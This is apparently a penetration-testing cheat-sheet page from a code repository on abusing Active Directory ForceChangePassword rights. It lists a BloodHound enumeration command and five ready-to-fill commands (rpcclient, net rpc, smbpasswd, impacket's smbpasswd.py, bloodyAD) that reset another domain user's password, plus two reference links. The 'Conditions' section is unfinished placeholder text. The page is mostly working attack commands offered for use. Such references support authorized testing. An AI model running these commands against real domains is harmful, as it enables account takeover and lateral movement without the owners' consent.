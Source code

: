 # Unix Shell

## 01 - Detect

> [!IMPORTANT] Conditions
> Write the conditions...

```
$ bloodhound-python -u <username> -p <password> -ns <domain_controller_IP> -d <domain>.<tld> -c All
```

## 02 - Exploit

```
rpcclient $> chgpasswd <username> <old_password> <new_password>
```

```
$ net <ads | rpc> password "<target_username>" "<new_password>" -U <domain>/"<username>%<password>" -S <IP>
```

```
$ smbpasswd -U <target_username>%<password> -r <IP>
```

```
$ smbpasswd.py [<domain>]/<username>:<password>@<IP> -newpass <new_password>
```

```
$ bloodyAD --host "<domain_controller_IP>" -d "<domain>.<tld>" -u "<username>" -p "<password>" set password "<target_username>" "<new_password>"
```

---
## References

- [Hacking Articles: Abusing AD-DACL - ForceChangePassword](https://www.hackingarticles.in/abusing-ad-dacl-forcechangepassword/)

- [n00py: Resetting an Expired Password Remotely](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)